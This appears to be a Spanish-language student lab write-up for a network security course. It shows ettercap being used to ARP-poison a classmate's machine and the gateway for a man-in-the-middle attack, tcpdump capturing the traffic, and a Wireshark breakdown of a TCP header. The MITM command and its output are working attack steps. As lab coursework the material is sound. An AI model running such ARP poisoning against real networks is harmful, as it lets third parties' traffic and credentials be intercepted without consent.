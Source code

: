 # PRACTICA 2 LSI

<details>
  <summary>a) Instale el ettercap y pruebe sus opciones básicas en línea de comando.</summary>

  ```console
  root@debian:/home/lsi# apt install ettercap-text-only
  ```
</details>
<details>
  <summary>b) Capture paquetería variada de su compañero de prácticas que incluya varias sesiones HTTP. Sobre esta paquetería (puede utilizar el wireshark para los siguientes subapartados)</summary>

  Previo a los apartados debemos hacer un MITM a la máquina de nuestro compañero :
  ```console
root@debian:/home/lsi# ettercap -T -q -i ens33 -M arp:remote //10.11.48.183/ //10.11.48.1/

ettercap 0.8.3.1 copyright 2001-2020 Ettercap Development Team

Listening on:
 ens33 -> 00:50:56:97:15:21
	  10.11.48.71/255.255.254.0
	  fe80::250:56ff:fe97:1521/64

SSL dissection needs a valid 'redir_command_on' script in the etter.conf file
Privileges dropped to EUID 65534 EGID 65534...

  34 plugins
  42 protocol dissectors
  57 ports monitored
28230 mac vendor fingerprint
1766 tcp OS fingerprint
2182 known services
Lua: no scripts were specified, not starting up!

Scanning for merged targets (2 hosts)...

* |==================================================>| 100.00 %

2 hosts added to the hosts list...

ARP poisoning victims:

 GROUP 1 : 10.11.48.183 00:50:56:97:EB:AC

 GROUP 2 : 10.11.48.1 DC:08:56:10:84:B9
Starting Unified sniffing...


Text only Interface activated...
Hit 'h' for inline help
  ```
Luego en otra terminal hacemos un tcpdump para guardar el trafico
```console
root@debian:/home/lsi# tcpdump -i ens33 -s 65535 -w compa.pcap
tcpdump: listening on ens33, link-type EN10MB (Ethernet), snapshot length 65535 bytes
916 packets captured
919 packets received by filter
0 packets dropped by kernel
```
Este archivo me lo paso a mi máquina real y lo leo desde Wireshark.

  -  Identifique los campos de cabecera de un paquete TCP
```console
     Frame 6: 66 bytes on wire (528 bits), 66 bytes captured (528 bits)
Ethernet II, Src: Alcatel-_10:84:b9 (dc:08:56:10:84:b9), Dst: VMware_97:15:21 (00:50:56:97:15:21)
Internet Protocol Version 4, Src: 10.20.38.93, Dst: 10.11.48.71
Transmission Control Protocol, Src Port: 56904, Dst Port: 22, Seq: 1, Ack: 45, Len: 0
    Source Port: 56904
    Destination Port: 22
    [Stream index: 0]
    [Conversation completeness: Incomplete (12)]
    [TCP Segment Len: 0]
    Sequence Number: 1    (relative sequence number)
    Sequence Number (raw): 2990874455
    [Next Sequence Number: 1    (relative sequence number)]
    Acknowledgment Number: 45    (relative ack number)
    Acknowledgment number (raw): 1338463224
    1000 .... = Header Length: 32 bytes (8)
    Flags: 0x010 (ACK)
    Window: 501
    [Calculated window size: 501]
    [Window size scaling factor: -1 (unknown)]
    Checksum: 0x6622 [unverified]
    [Checksum Status: Unverified]
    Urgent Pointer: 0
    Options: (12 bytes), No-Operation (NOP), No-Operation (NOP), Timestamps
    [Timestamps]
    [SEQ/ACK analysis]
```
     
  -  Filtre la captura para obtener el tráfico HTTP
  -  Obtenga los distintos “objetos” del tráfico HTTP (imágenes, pdfs, etc.)
  -  Visualice la paquetería TCP de una determinada sesión.
  -  Sobre el total de la paquetería obtenga estadísticas del tráfico por protocolo como fuente de información para un análisis básico del tráfico.
  -  Obtenga información del tráfico de las distintas “conversaciones” mantenidas.
  -  Obtenga direcciones finales del tráfico de los distintos protocolos como mecanismo para determinar qué circula por nuestras redes.

</details>
